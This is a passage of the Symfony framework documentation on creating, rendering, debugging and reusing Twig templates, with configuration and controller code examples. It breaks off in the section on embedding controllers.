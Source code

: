 Creating and Using Templates
============================

A template is the best way to organize and render HTML from inside your application,
whether you need to render HTML from a :doc:`controller </controller>` or generate
the :doc:`contents of an email </mailer>`. Templates in Symfony are created with
Twig: a flexible, fast, and secure template engine.

Installation
------------

In applications using :ref:`Symfony Flex <symfony-flex>`, run the following command
to install both Twig language support and its integration with Symfony applications:

.. code-block:: terminal

    $ composer require symfony/twig-bundle

.. _twig-language:

Twig Templating Language
------------------------

The `Twig`_ templating language allows you to write concise, readable templates
that are more friendly to web designers and, in several ways, more powerful than
PHP templates. Take a look at the following Twig template example. Even if it's
the first time you see Twig, you probably understand most of it:

.. code-block:: html+twig

    <!DOCTYPE html>
    <html>
        <head>
            <title>Welcome to Symfony!</title>
        </head>
        <body>
            <h1>{{ page_title }}</h1>

            {% if user.isLoggedIn %}
                Hello {{ user.name }}!
            {% endif %}

            {# ... #}
        </body>
    </html>

Twig syntax is based on these three constructs:

* ``{{ ... }}``, used to display the content of a variable or the result of
  evaluating an expression;
* ``{% ... %}``, used to run some logic, such as a conditional or a loop;
* ``{# ... #}``, used to add comments to the template (unlike HTML comments,
  these comments are not included in the rendered page).

You can't run PHP code inside Twig templates, but Twig provides utilities to
run some logic in the templates. For example, **filters** modify content before
being rendered, like the ``upper`` filter to uppercase contents:

.. code-block:: twig

    {{ title|upper }}

Twig comes with a long list of `tags`_, `filters`_ and `functions`_ that are
available by default. In Symfony applications you can also use these
:doc:`Twig filters and functions defined by Symfony </reference/twig_reference>`
and you can :ref:`create your own Twig filters and functions <templates-twig-extension>`.

Twig is fast in the ``prod`` :ref:`environment <configuration-environments>`
(because templates are compiled into PHP and cached automatically), but
convenient to use in the ``dev`` environment (because templates are recompiled
automatically when you change them).

Twig Configuration
~~~~~~~~~~~~~~~~~~

Twig has several configuration options to define things like the format used
to display numbers and dates, the template caching, etc. Read the
:doc:`Twig configuration reference </reference/configuration/twig>` to learn about them.

Creating Templates
------------------

Before explaining in detail how to create and render templates, look at the
following example for a quick overview of the whole process. First, you need to
create a new file in the ``templates/`` directory to store the template contents:

.. code-block:: html+twig

    {# templates/user/notifications.html.twig #}
    <h1>Hello {{ user_first_name }}!</h1>
    <p>You have {{ notifications|length }} new notifications.</p>

Then, create a :doc:`controller </controller>` that renders this template and
passes to it the needed variables::

    // src/Controller/UserController.php
    namespace App\Controller;

    use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
    use Symfony\Component\HttpFoundation\Response;

    class UserController extends AbstractController
    {
        // ...

        public function notifications(): Response
        {
            // get the user information and notifications somehow
            $userFirstName = '...';
            $userNotifications = ['...', '...'];

            // the template path is the relative file path from `templates/`
            return $this->render('user/notifications.html.twig', [
                // this array defines the variables passed to the template,
                // where the key is the variable name and the value is the variable value
                // (Twig recommends using snake_case variable names: 'foo_bar' instead of 'fooBar')
                'user_first_name' => $userFirstName,
                'notifications' => $userNotifications,
            ]);
        }
    }

Template Naming
~~~~~~~~~~~~~~~

Symfony recommends the following for template names:

* Use `snake case`_ for filenames and directories (e.g. ``blog_posts.html.twig``,
  ``admin/default_theme/blog/index.html.twig``, etc.);
* Define two extensions for filenames (e.g. ``index.html.twig`` or
  ``blog_posts.xml.twig``) being the first extension (``html``, ``xml``, etc.)
  the final format that the template will generate.

Although templates usually generate HTML contents, they can generate any
text-based format. That's why the two-extension convention simplifies the way
templates are created and rendered for multiple formats.

Template Location
~~~~~~~~~~~~~~~~~

Templates are stored by default in the ``templates/`` directory. When a service
or controller renders the ``product/index.html.twig`` template, they are actually
referring to the ``<your-project>/templates/product/index.html.twig`` file.

The default templates directory is configurable with the
:ref:`twig.default_path <config-twig-default-path>` option and you can add more
template directories :ref:`as explained later <templates-namespaces>` in this article.

Template Variables
~~~~~~~~~~~~~~~~~~

A common need for templates is to print the values stored in the templates
passed from the controller or service. Variables usually store objects and
arrays instead of strings, numbers and boolean values. That's why Twig provides
quick access to complex PHP variables. Consider the following template:

.. code-block:: html+twig

    <p>{{ user.name }} added this comment on {{ comment.publishedAt|date }}</p>

The ``user.name`` notation means that you want to display some information
(``name``) stored in a variable (``user``). Is ``user`` an array or an object?
Is ``name`` a property or a method? In Twig this doesn't matter.

When using the ``foo.bar`` notation, Twig tries to get the value of the variable
in the following order:

#. ``$foo['bar']`` (array and element);
#. ``$foo->bar`` (object and public property);
#. ``$foo->bar()`` (object and public method);
#. ``$foo->getBar()`` (object and *getter* method);
#. ``$foo->isBar()`` (object and *isser* method);
#. ``$foo->hasBar()`` (object and *hasser* method);
#. If none of the above exists, use ``null`` (or throw a ``Twig\Error\RuntimeError``
   exception if the :ref:`strict_variables <config-twig-strict-variables>`
   option is enabled).

This allows to evolve your application code without having to change the
template code (you can start with array variables for the application proof of
concept, then move to objects with methods, etc.)

.. _templates-link-to-pages:

Linking to Pages
~~~~~~~~~~~~~~~~

Instead of writing the link URLs by hand, use the ``path()`` function to
generate URLs based on the :ref:`routing configuration <routing-creating-routes>`.

Later, if you want to modify the URL of a particular page, all you'll need to do
is change the routing configuration: the templates will automatically generate
the new URL.

Consider the following routing configuration:

.. configuration-block::

    .. code-block:: php-attributes

        // src/Controller/BlogController.php
        namespace App\Controller;

        // ...
        use Symfony\Component\HttpFoundation\Response;
        use Symfony\Component\Routing\Attribute\Route;

        class BlogController extends AbstractController
        {
            #[Route('/', name: 'blog_index')]
            public function index(): Response
            {
                // ...
            }

            #[Route('/article/{slug}', name: 'blog_post')]
            public function show(string $slug): Response
            {
                // ...
            }
        }

    .. code-block:: yaml

        # config/routes.yaml
        blog_index:
            path:       /
            controller: App\Controller\BlogController::index

        blog_post:
            path:       /article/{slug}
            controller: App\Controller\BlogController::show

    .. code-block:: xml

        <!-- config/routes.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <routes xmlns="http://symfony.com/schema/routing"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://symfony.com/schema/routing
                https://symfony.com/schema/routing/routing-1.0.xsd">

            <route id="blog_index"
                path="/"
                controller="App\Controller\BlogController::index"/>

            <route id="blog_post"
                path="/article/{slug}"
                controller="App\Controller\BlogController::show"/>
        </routes>

    .. code-block:: php

        // config/routes.php
        use App\Controller\BlogController;
        use Symfony\Component\Routing\Loader\Configurator\RoutingConfigurator;

        return function (RoutingConfigurator $routes): void {
            $routes->add('blog_index', '/')
                ->controller([BlogController::class, 'index'])
            ;

            $routes->add('blog_post', '/articles/{slug}')
                ->controller([BlogController::class, 'show'])
            ;
        };

Use the ``path()`` Twig function to link to these pages and pass the route name
as the first argument and the route parameters as the optional second argument:

.. code-block:: html+twig

    <a href="{{ path('blog_index') }}">Homepage</a>

    {# ... #}

    {% for post in blog_posts %}
        <h1>
            <a href="{{ path('blog_post', {slug: post.slug}) }}">{{ post.title }}</a>
        </h1>

        <p>{{ post.excerpt }}</p>
    {% endfor %}

The ``path()`` function generates relative URLs. If you need to generate
absolute URLs (for example when rendering templates for emails or RSS feeds),
use the ``url()`` function, which takes the same arguments as ``path()``
(e.g. ``<a href="{{ url('blog_index') }}"> ... </a>``).

.. _templates-link-to-assets:

Linking to CSS, JavaScript and Image Assets
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If a template needs to link to a static asset (e.g. an image), Symfony provides
an ``asset()`` Twig function to help generate that URL. First, install the
``asset`` package:

.. code-block:: terminal

    $ composer require symfony/asset

You can now use the ``asset()`` function:

.. code-block:: html+twig

    {# the image lives at "public/images/logo.png" #}
    <img src="{{ asset('images/logo.png') }}" alt="Symfony!"/>

    {# the CSS file lives at "public/css/blog.css" #}
    <link href="{{ asset('css/blog.css') }}" rel="stylesheet"/>

    {# the JS file lives at "public/bundles/acme/js/loader.js" #}
    <script src="{{ asset('bundles/acme/js/loader.js') }}"></script>

The ``asset()`` function's main purpose is to make your application more portable.
If your application lives at the root of your host (e.g. ``https://example.com``),
then the rendered path should be ``/images/logo.png``. But if your application
lives in a subdirectory (e.g. ``https://example.com/my_app``), each asset path
should render with the subdirectory (e.g. ``/my_app/images/logo.png``). The
``asset()`` function takes care of this by determining how your application is
being used and generating the correct paths accordingly.

.. tip::

    The ``asset()`` function supports various cache busting techniques via the
    :ref:`version <reference-framework-assets-version>`,
    :ref:`version_format <reference-assets-version-format>`, and
    :ref:`json_manifest_path <reference-assets-json-manifest-path>` configuration options.

If you need absolute URLs for assets, use the ``absolute_url()`` Twig function
as follows:

.. code-block:: html+twig

    <img src="{{ absolute_url(asset('images/logo.png')) }}" alt="Symfony!"/>

    <link rel="shortcut icon" href="{{ absolute_url('favicon.png') }}">

Build, Versioning & More Advanced CSS, JavaScript and Image Handling
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

For help building and versioning your JavaScript and
CSS assets in a modern way, read about :doc:`Symfony's AssetMapper </frontend>`.

.. _twig-app-variable:

The App Global Variable
~~~~~~~~~~~~~~~~~~~~~~~

Symfony creates a context object that is injected into every Twig template
automatically as a variable called ``app``. It provides access to some
application information:

.. code-block:: html+twig

    <p>Username: {{ app.user.username ?? 'Anonymous user' }}</p>
    {% if app.debug %}
        <p>Request method: {{ app.request.method }}</p>
        <p>Application Environment: {{ app.environment }}</p>
    {% endif %}

The ``app`` variable (which is an instance of :class:`Symfony\\Bridge\\Twig\\AppVariable`)
gives you access to these variables:

``app.user``
    The :ref:`current user object <create-user-class>` or ``null`` if the user
    is not authenticated.
``app.request``
    The :class:`Symfony\\Component\\HttpFoundation\\Request` object that stores
    the current :ref:`request data <accessing-request-data>` (depending on your
    application, this can be a :ref:`sub-request <http-kernel-sub-requests>`
    or a regular request).
``app.session``
    The :class:`Symfony\\Component\\HttpFoundation\\Session\\Session` object that
    represents the current :doc:`user's session </session>` or ``null`` if there is none.
``app.flashes``
    An array of all the :ref:`flash messages <flash-messages>` stored in the session.
    You can also get only the messages of some type (e.g. ``app.flashes('notice')``).
``app.environment``
    The name of the current :ref:`configuration environment <configuration-environments>`
    (``dev``, ``prod``, etc).
``app.debug``
    True if in :ref:`debug mode <debug-mode>`. False otherwise.
``app.token``
    A :class:`Symfony\\Component\\Security\\Core\\Authentication\\Token\\TokenInterface`
    object representing the security token.
``app.current_route``
    The name of the route associated with the current request or ``null`` if no
    request is available (equivalent to ``app.request.attributes.get('_route')``)
``app.current_route_parameters``
    An array with the parameters passed to the route of the current request or an
    empty array if no request is available (equivalent to ``app.request.attributes.get('_route_params')``)
``app.locale``
    The locale used in the current :ref:`locale switcher <locale-switcher>` context.
``app.enabled_locales``
    The locales enabled in the application.

In addition to the global ``app`` variable injected by Symfony, you can also
inject variables automatically to all Twig templates as explained in the next
section.

.. _templating-global-variables:

Global Variables
~~~~~~~~~~~~~~~~

Twig allows you to automatically inject one or more variables into all
templates. These global variables are defined in the ``twig.globals`` option
inside the main Twig configuration file:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/twig.yaml
        twig:
            # ...
            globals:
                ga_tracking: 'UA-xxxxx-x'

    .. code-block:: xml

        <!-- config/packages/twig.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:twig="http://symfony.com/schema/dic/twig"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/twig
                https://symfony.com/schema/dic/twig/twig-1.0.xsd">

            <twig:config>
                <!-- ... -->
                <twig:global key="ga_tracking">UA-xxxxx-x</twig:global>
            </twig:config>
        </container>

    .. code-block:: php

        // config/packages/twig.php
        use Symfony\Config\TwigConfig;

        return static function (TwigConfig $twig): void {
            // ...

            $twig->global('ga_tracking')->value('UA-xxxxx-x');
        };

Now, the variable ``ga_tracking`` is available in all Twig templates, so you
can use it without having to pass it explicitly from the controller or service
that renders the template:

.. code-block:: html+twig

    <p>The Google tracking code is: {{ ga_tracking }}</p>

In addition to static values, Twig global variables can also reference services
from the :doc:`service container </service_container>`. The main drawback is
that these services are not loaded lazily. In other words, as soon as Twig is
loaded, your service is instantiated, even if you never use that global
variable.

To define a service as a global Twig variable, prefix the service ID string
with the ``@`` character, which is the usual syntax to :ref:`refer to services
in container parameters <service-container-parameters>`:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/twig.yaml
        twig:
            # ...
            globals:
                # the value is the service's id
                uuid: '@App\Generator\UuidGenerator'

    .. code-block:: xml

        <!-- config/packages/twig.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:twig="http://symfony.com/schema/dic/twig"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/twig
                https://symfony.com/schema/dic/twig/twig-1.0.xsd">

            <twig:config>
                <!-- ... -->
                <twig:global key="uuid" id="App\Generator\UuidGenerator" type="service"/>
            </twig:config>
        </container>

    .. code-block:: php

        // config/packages/twig.php
        use function Symfony\Component\DependencyInjection\Loader\Configurator\service;
        use Symfony\Config\TwigConfig;

        return static function (TwigConfig $twig): void {
            // ...

            $twig->global('uuid')->value(service('App\Generator\UuidGenerator'));
        };

Now you can use the ``uuid`` variable in any Twig template to access to the
``UuidGenerator`` service:

.. code-block:: twig

    UUID: {{ uuid.generate }}

Twig Components
---------------

Twig components are an alternative way to render templates, where each template
is bound to a "component class". This makes it easier to render and re-use
small template "units" - like an alert, markup for a modal, or a category sidebar.

For more information, see `UX Twig Component`_.

Twig components also have one other superpower: they can become "live", where
they automatically update (via Ajax) as the user interacts with them. For example,
when your user types into a box, your Twig component will re-render via Ajax to
show a list of results!

To learn more, see `UX Live Component`_.

.. _templates-rendering:

Rendering Templates
-------------------

Rendering a Template in Controllers
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If your controller extends from the :ref:`AbstractController <the-base-controller-class-services>`,
use the ``render()`` helper::

    // src/Controller/ProductController.php
    namespace App\Controller;

    use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
    use Symfony\Component\HttpFoundation\Response;

    class ProductController extends AbstractController
    {
        public function index(): Response
        {
            // ...

            // the `render()` method returns a `Response` object with the
            // contents created by the template
            return $this->render('product/index.html.twig', [
                'category' => '...',
                'promotions' => ['...', '...'],
            ]);

            // the `renderView()` method only returns the contents created by the
            // template, so you can use those contents later in a `Response` object
            $contents = $this->renderView('product/index.html.twig', [
                'category' => '...',
                'promotions' => ['...', '...'],
            ]);

            return new Response($contents);
        }
    }

If your controller does not extend from ``AbstractController``, you'll need to
:ref:`fetch services in your controller <controller-accessing-services>` and
use the ``render()`` method of the ``twig`` service.

.. _templates-template-attribute:

Another option is to use the ``#[Template]`` attribute on the controller method
to define the template to render::

    // src/Controller/ProductController.php
    namespace App\Controller;

    use Symfony\Bridge\Twig\Attribute\Template;
    use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
    use Symfony\Component\HttpFoundation\Response;

    class ProductController extends AbstractController
    {
        #[Template('product/index.html.twig')]
        public function index(): array
        {
            // ...

            // when using the #[Template] attribute, you only need to return
            // an array with the parameters to pass to the template (the attribute
            // is the one which will create and return the Response object).
            return [
                'category' => '...',
                'promotions' => ['...', '...'],
            ];
        }
    }

The :ref:`base AbstractController <the-base-controller-classes-services>` also provides the
:method:`Symfony\\Bundle\\FrameworkBundle\\Controller\\AbstractController::renderBlock`
and :method:`Symfony\\Bundle\\FrameworkBundle\\Controller\\AbstractController::renderBlockView`
methods::

    // src/Controller/ProductController.php
    namespace App\Controller;

    use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
    use Symfony\Component\HttpFoundation\Response;

    class ProductController extends AbstractController
    {
        // ...

        public function price(): Response
        {
            // ...

            // the `renderBlock()` method returns a `Response` object with the
            // block contents
            return $this->renderBlock('product/index.html.twig', 'price_block', [
                // ...
            ]);

            // the `renderBlockView()` method only returns the contents created by the
            // template block, so you can use those contents later in a `Response` object
            $contents = $this->renderBlockView('product/index.html.twig', 'price_block', [
                // ...
            ]);

            return new Response($contents);
        }
    }

This might come handy when dealing with blocks in
:ref:`templates inheritance <template_inheritance-layouts>` or when using
`Turbo Streams`_.

Similarly, you can use the ``#[Template]`` attribute on the controller to specify
a block to render::

    // src/Controller/ProductController.php
    namespace App\Controller;

    use Symfony\Bridge\Twig\Attribute\Template;
    use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
    use Symfony\Component\HttpFoundation\Response;

    class ProductController extends AbstractController
    {
        #[Template('product.html.twig', block: 'price_block')]
        public function price(): array
        {
            return [
                // ...
            ];
        }
    }

.. versionadded:: 7.2

    The ``#[Template]`` attribute's ``block`` argument was introduced in Symfony 7.2.

Rendering a Template in Services
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Inject the ``twig`` Symfony service into your own services and use its
``render()`` method. When using :doc:`service autowiring </service_container/autowiring>`
you only need to add an argument in the service constructor and type-hint it with
the `Twig Environment`_::

    // src/Service/SomeService.php
    namespace App\Service;

    use Twig\Environment;

    class SomeService
    {
        public function __construct(
            private Environment $twig,
        ) {
        }

        public function someMethod(): void
        {
            // ...

            $htmlContents = $this->twig->render('product/index.html.twig', [
                'category' => '...',
                'promotions' => ['...', '...'],
            ]);
        }
    }

Rendering a Template in Emails
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Read the docs about the :ref:`mailer and Twig integration <mailer-twig>`.

.. _templates-render-from-route:

Rendering a Template Directly from a Route
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Although templates are usually rendered in controllers and services, you can
render static pages that don't need any variables directly from the route
definition. Use the special :class:`Symfony\\Bundle\\FrameworkBundle\\Controller\\TemplateController`
provided by Symfony:

.. configuration-block::

    .. code-block:: yaml

        # config/routes.yaml
        acme_privacy:
            path:          /privacy
            controller:    Symfony\Bundle\FrameworkBundle\Controller\TemplateController
            defaults:
                # the path of the template to render
                template:  'static/privacy.html.twig'

                # the response status code (default: 200)
                statusCode: 200

                # special options defined by Symfony to set the page cache
                maxAge:    86400
                sharedAge: 86400

                # whether or not caching should apply for client caches only
                private: true

                # optionally you can define some arguments passed to the template
                context:
                    site_name: 'ACME'
                    theme: 'dark'

                # optionally you can define HTTP headers to add to the response
                headers:
                    Content-Type: 'text/html'
                    foo: 'bar'

    .. code-block:: xml

        <!-- config/routes.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <routes xmlns="http://symfony.com/schema/routing"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://symfony.com/schema/routing https://symfony.com/schema/routing/routing-1.0.xsd">

            <route id="acme_privacy"
                path="/privacy"
                controller="Symfony\Bundle\FrameworkBundle\Controller\TemplateController">
                <!-- the path of the template to render -->
                <default key="template">static/privacy.html.twig</default>

                <!-- the response status code (default: 200) -->
                <default key="statusCode">200</default>

                <!-- special options defined by Symfony to set the page cache -->
                <default key="maxAge">86400</default>
                <default key="sharedAge">86400</default>

                <!-- whether or not caching should apply for client caches only -->
                <default key="private">true</default>

                <!-- optionally you can define some arguments passed to the template -->
                <default key="context">
                    <default key="site_name">ACME</default>
                    <default key="theme">dark</default>
                </default>

                <!-- optionally you can define HTTP headers to add to the response -->
                <default key="headers">
                    <default key="Content-Type">text/html</default>
                </default>
            </route>
        </routes>

    .. code-block:: php

        // config/routes.php
        use Symfony\Bundle\FrameworkBundle\Controller\TemplateController;
        use Symfony\Component\Routing\Loader\Configurator\RoutingConfigurator;

        return function (RoutingConfigurator $routes): void {
            $routes->add('acme_privacy', '/privacy')
                ->controller(TemplateController::class)
                ->defaults([
                    // the path of the template to render
                    'template'  => 'static/privacy.html.twig',

                    // the response status code (default: 200)
                    'statusCode' => 200,

                    // special options defined by Symfony to set the page cache
                    'maxAge'    => 86400,
                    'sharedAge' => 86400,

                    // whether or not caching should apply for client caches only
                    'private' => true,

                    // optionally you can define some arguments passed to the template
                    'context' => [
                        'site_name' => 'ACME',
                        'theme' => 'dark',
                        ],

                    // optionally you can define HTTP headers to add to the response
                    'headers' => [
                        'Content-Type' => 'text/html',
                    ]
                ])
            ;
        };

.. versionadded:: 7.2

    The ``headers`` option was introduced in Symfony 7.2.

Checking if a Template Exists
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Templates are loaded in the application using a `Twig template loader`_, which
also provides a method to check for template existence. First, get the loader::

    use Twig\Environment;

    class YourService
    {
        // this code assumes that your service uses autowiring to inject dependencies
        // otherwise, inject the service called 'twig' manually
        public function __construct(Environment $twig)
        {
            $loader = $twig->getLoader();
        }
    }

Then, pass the path of the Twig template to the ``exists()`` method of the loader::

    if ($loader->exists('theme/layout_responsive.html.twig')) {
        // the template exists, do something
        // ...
    }

Debugging Templates
-------------------

Symfony provides several utilities to help you debug issues in your templates.

Linting Twig Templates
~~~~~~~~~~~~~~~~~~~~~~

The ``lint:twig`` command checks that your Twig templates don't have any syntax
errors. It's useful to run it before deploying your application to production
(e.g. in your continuous integration server):

.. code-block:: terminal

    # check all the application templates
    $ php bin/console lint:twig

    # you can also check directories and individual templates
    $ php bin/console lint:twig templates/email/
    $ php bin/console lint:twig templates/article/recent_list.html.twig

    # you can also show the deprecated features used in your templates
    # (only the first deprecation is shown, so run multiple times to catch all)
    $ php bin/console lint:twig --show-deprecations templates/email/

    # you can also excludes directories
    $ php bin/console lint:twig templates/ --excludes=data_collector --excludes=dev_tool

.. versionadded:: 7.1

    The option to exclude directories was introduced in Symfony 7.1.

When running the linter inside `GitHub Actions`_, the output is automatically
adapted to the format required by GitHub, but you can force that format too:

.. code-block:: terminal

    $ php bin/console lint:twig --format=github

Inspecting Twig Information
~~~~~~~~~~~~~~~~~~~~~~~~~~~

The ``debug:twig`` command lists all the information available about Twig
(functions, filters, global variables, etc.). It's useful to check if your
:ref:`custom Twig extensions <templates-twig-extension>` are working properly
and also to check the Twig features added when :ref:`installing packages <symfony-flex>`:

.. code-block:: terminal

    # list general information
    $ php bin/console debug:twig

    # filter output by any keyword
    $ php bin/console debug:twig --filter=date

    # pass a template path to show the physical file which will be loaded
    $ php bin/console debug:twig @Twig/Exception/error.html.twig

.. _twig-dump-utilities:

The Dump Twig Utilities
~~~~~~~~~~~~~~~~~~~~~~~

Symfony provides a :ref:`dump() function <components-var-dumper-dump>` as an
improved alternative to PHP's ``var_dump()`` function. This function is useful
to inspect the contents of any variable and you can use it in Twig templates too.

First, make sure that the VarDumper component is installed in the application:

.. code-block:: terminal

    $ composer require --dev symfony/debug-bundle

Then, use either the ``{% dump %}`` tag or the ``{{ dump() }}`` function
depending on your needs:

.. code-block:: html+twig

    {# templates/article/recent_list.html.twig #}
    {# the contents of this variable are sent to the Web Debug Toolbar
       instead of dumping them inside the page contents #}
    {% dump articles %}

    {% for article in articles %}
        {# the contents of this variable are dumped inside the page contents
           and they are visible on the web page #}
        {{ dump(article) }}

        {# optionally, use named arguments to display them as labels next to
           the dumped contents #}
        {{ dump(blog_posts: articles, user: app.user) }}

        <a href="/article/{{ article.slug }}">
            {{ article.title }}
        </a>
    {% endfor %}

To avoid leaking sensitive information, the ``dump()`` function/tag is only
available in the ``dev`` and ``test`` :ref:`configuration environments <configuration-environments>`.
If you try to use it in the ``prod`` environment, you will see a PHP error.

.. _templates-reuse-contents:

Reusing Template Contents
-------------------------

.. _templates-include:

Including Templates
~~~~~~~~~~~~~~~~~~~

If certain Twig code is repeated in several templates, you can extract it into a
single "template fragment" and include it in other templates. Imagine that the
following code to display the user information is repeated in several places:

.. code-block:: html+twig

    {# templates/blog/index.html.twig #}

    {# ... #}
    <div class="user-profile">
        <img src="{{ user.profileImageUrl }}" alt="{{ user.fullName }}"/>
        <p>{{ user.fullName }} - {{ user.email }}</p>
    </div>

First, create a new Twig template called ``blog/_user_profile.html.twig`` (the
``_`` prefix is optional, but it's a convention used to better differentiate
between full templates and template fragments).

Then, remove that content from the original ``blog/index.html.twig`` template
and add the following to include the template fragment:

.. code-block:: twig

    {# templates/blog/index.html.twig #}

    {# ... #}
    {{ include('blog/_user_profile.html.twig') }}

The ``include()`` Twig function takes as argument the path of the template to
include. The included template has access to all the variables of the template
that includes it (use the `with_context`_ option to control this).

You can also pass variables to the included template. This is useful for example
to rename variables. Imagine that your template stores the user information in a
variable called ``blog_post.author`` instead of the ``user`` variable that the
template fragment expects. Use the following to *rename* the variable:

.. code-block:: twig

    {# templates/blog/index.html.twig #}

    {# ... #}
    {{ include('blog/_user_profile.html.twig', {user: blog_post.author}) }}

.. _templates-embed-controllers:

Embedding Controllers
~~~~~~~~~~~~~~~~~~~~~

:ref:`Including template fragments <templates-include>` is useful to reuse the
same content on several pages. However, this technique is not the best solution
in some cases.

Imagine that the template fragment displays the three most recent blog articles.
To do that, it needs to make a database query to get those articles. When using
the ``include()`` function, you'd need to do the same database query in every
page that includes the fragment. This is not very convenient.

A better alternative is to **embed the result of executing some controller**
with the ``render()`` and ``controller()`` Twig functions.

First, create the controller that renders a certain number of recent articles::

    // src/Controller/BlogController.php
    namespace App\Controller;

    use Symfony\Component\HttpFoundation\Response;
    // ...

    class BlogController extends AbstractController
    {
        public function recentArticles(int $max = 3): Response
        {
            // get the recent articles somehow (e.g. making a database query)
            $articles = ['...', '...', '...'];

            return $this->render('blog/_recent_articles.html.twig', [
                'articles' => $articles
            ]);
        }
    }

Then, create the ``blog/_recent_articles.html.twig`` template fragment (the
``_`` prefix in the template name is optional, but it's a convention used to
better differentiate between full templates and template fragments):

.. code-block:: html+twig

    {# templates/blog/_recent_articles.html.twig #}
    {% for article in articles %}
        <a href="{{ path('blog_show', {slug: article.slug}) }}">
            {{ article.title }}
        </a>
    {% endfor %}

Now you can call to this controller from any template to embed its result:

.. code-block:: html+twig

    {# templates/base.html.twig #}

    {# ... #}
    <div id="sidebar">
        {# if the controller is associated with a route, use the path() or url() functions #}
        {{ render(path('latest_articles', {max: 3})) }}
        {{ render(url('latest_articles', {max: 3})) }}

        {# if you don't want to expose the controller with a public URL,
